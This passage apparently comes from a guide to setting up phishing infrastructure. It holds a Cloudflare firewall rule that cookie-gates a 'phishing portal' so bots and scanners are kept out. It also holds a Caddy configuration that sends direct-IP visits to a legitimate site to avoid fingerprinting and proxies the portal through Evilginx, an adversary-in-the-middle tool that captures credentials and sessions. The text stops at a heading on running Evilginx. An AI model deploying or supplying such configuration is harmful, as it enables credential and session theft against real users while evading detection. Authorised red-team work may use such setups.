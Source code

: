 ### Cloudflare Firewall Rule Example

Cookie gating reduces bot hits and automated scanning by requiring a specific cookie to access the phishing portal:

```
(http.host eq "portal.example.com")
and (not http.cookie contains "session_token=abc123def456")
and not (http.host eq "landing.example.com" and http.request.uri.path eq "/favicon.ico")
```

This rule redirects requests to the portal domain that don't contain the required cookie, while exempting favicon requests to prevent redirect loops.

### Sample Caddy Configuration

```caddyfile
# Redirect direct IP access to prevent fingerprinting
1.2.3.4 {
    redir https://legitimate-site.com{uri} permanent
}

landing.example.com {
    log {
        output file /var/log/caddy/landing_access.log
        format console
    }
    tls internal
    encode gzip
    reverse_proxy http://127.0.0.1:8000
}

portal.example.com {
    log {
        output file /var/log/caddy/portal_access.log
        format console
    }
    tls internal
    encode gzip
    reverse_proxy https://evilginx:443 {
        transport http {
            versions 1.1
            tls_insecure_skip_verify
            tls_server_name portal.example.com
        }
        header_up Host portal.example.com
        header_up X-Forwarded-Proto https
    }
}
```

### Running Evilginx
